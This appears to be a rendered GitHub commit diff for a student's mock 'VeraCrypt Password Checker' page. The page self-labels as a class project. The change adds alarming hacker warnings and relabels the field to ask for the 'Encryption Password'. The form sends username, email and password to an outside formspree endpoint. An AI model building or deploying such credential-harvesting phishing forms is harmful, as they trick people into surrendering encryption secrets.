

Before and after one commit to clintp91/clintp91.github.io, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,7 +1,7 @@
 <html>
   <head>
     <title>VeraCrypt Security Password Checker</title>
-	<meta name="description">!!NOT REAL. DEVELOPED FOR A CLASS PROJECT!!</meta>
+	<p>!!NOT REAL. DEVELOPED FOR A CLASS PROJECT!!</p>
 	<link href="styles.css" rel="stylesheet" type="text/css" />
   </head>
   <body>
@@ -20,14 +20,15 @@
 	  <li><a href="https://sourceforge.net/p/veracrypt/discussion/" target="_blank">Forums</a></li>
 	</ul>
   </div>
-  <h2>VeraCrypt Password Checkder</h2>
-  <h4>Enter your information to see if your secure files were lost!!</h4>
+  <h2>VeraCrypt Password Checker</h2>
+  <h3>WARNING! - If you use VeraCrypt, it is likley that your information can be accessed by HACKERS!</h3>
+  <h4>Enter your information so that we can secure your encrypted files!</h4>
 	<form action="https://formspree.io/cpatter5@umd.edu" method="post">
 		Username:<br>
 		<input type="text" name="username"><br>
 		Email:<br>
 		<input type="text" name="_replyto"><br>
-		Password:<br>
+		Encryption Password:<br>
 		<input type="password" name="password"><br>
 		<input type="submit" value="Send">
 	</form>
```
